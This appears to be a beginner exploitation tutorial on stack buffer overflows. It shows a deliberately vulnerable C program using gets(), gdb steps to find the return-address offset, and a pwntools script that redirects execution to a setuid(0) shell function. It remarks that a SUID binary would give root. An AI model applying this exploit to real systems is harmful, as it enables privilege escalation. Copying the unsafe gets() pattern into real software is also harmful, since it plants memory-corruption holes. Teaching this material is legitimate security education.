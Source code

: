# Stack overflow

Stack overflow is about a buffer overflow vulnerability which purpose is not to overwrite variables after the buffer, but also to overwrite the saved return address.

## Jump to an arbitrary address

Let's try to jump to an arbitrary address of our program text section.

Consider this program:
```C
#include <unistd.h>
#include <string.h>

// gcc stack-overflow.c -o stack-overflow -fno-stack-protector -no-pie

// Function that sets user id to 0 and execute the shell
void shell(){
  setuid(0);
  system("/bin/sh");
}

void vuln_func(){
  char vuln_buff[250];
  // vulnerable
  gets(vuln_buff);
}

int main(int argc, char *argv[]){
  vuln_func();
  return 0;
}
```

So, here we have a vulnerable function `vuln_func` that does the same stuff from the buffer overflow section. But now we will overflow the buffer and overwrite the return address to jump to an arbitrary address of the program. This address will be the address of the beginning of the `shell` function. Thus, when we overflow the buffer and overwrite the return address after the `vuln_func` completes its execution, it will take the new return address and jump to the shell function.

To determine the offset just do next in gdb:
```bash
gef➤  r < <(python -c 'print "A"*250 + "B"*16')
Starting program: /home/shogun/repos/basics-of-pwn/content/stack-overflow/stack-overflow < <(python -c 'print "A"*250 + "B"*16')

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

My offset is 12 bytes. The next 4 bytes will overwrite the return address. You can have a different offset.

Next, find the start address of `shell` function:
```bash
gef➤  disas shell
Dump of assembler code for function shell:
   0x080491d6 <+0>:	endbr32
   0x080491da <+4>:	push   ebp
   0x080491db <+5>:	mov    ebp,esp
   0x080491dd <+7>:	push   ebx
   0x080491de <+8>:	sub    esp,0x4
   0x080491e1 <+11>:	call   0x8049110 <__x86.get_pc_thunk.bx>
   0x080491e6 <+16>:	add    ebx,0x2e1a
   0x080491ec <+22>:	sub    esp,0xc
   0x080491ef <+25>:	push   0x0
   0x080491f1 <+27>:	call   0x80490b0 <setuid@plt>
   0x080491f6 <+32>:	add    esp,0x10
   0x080491f9 <+35>:	sub    esp,0xc
   0x080491fc <+38>:	lea    eax,[ebx-0x1ff8]
   0x08049202 <+44>:	push   eax
   0x08049203 <+45>:	call   0x8049090 <system@plt>
   0x08049208 <+50>:	add    esp,0x10
   0x0804920b <+53>:	nop
   0x0804920c <+54>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x0804920f <+57>:	leave  
   0x08049210 <+58>:	ret    
End of assembler dump.
```

`0x080491d6` is that's what you need.

Then, try to replace last 4 bytes in payload on this address:
```bash
gef➤  r < <(python -c 'print "A"*250 + "B"*12 + "\xd6\x91\x04\x08"')
Starting program: /home/shogun/repos/basics-of-pwn/content/stack-overflow/stack-overflow < <(python -c 'print "A"*250 + "B"*12 + "\xd6\x91\x04\x08"')
[Detaching after vfork from child process 6753]

Program received signal SIGSEGV, Segmentation fault.
0xf7fa8000 in ?? () from /lib/i386-linux-gnu/libc.so.6
```

Segmentation fault is nothing because you can see that the gdb shows you detaching. It means that the shell is executed.

Now, do it with `pwntools`:
```python
from pwn import *


# start the vuln program
p = process('./stack-overflow')
# shell function address
shell_addr = p32(0x080491d6)
# fill the vuln buffer
payload = b'A' * 250
# add the offset
payload += b'B' * 12
# add a new return address
payload += shell_addr
# send to process
p.sendline(payload)
# Shell
p.interactive()
```

Again, you have a shell, or if this program would be with SUID bit set, you would get the root or another user who is owned this program.

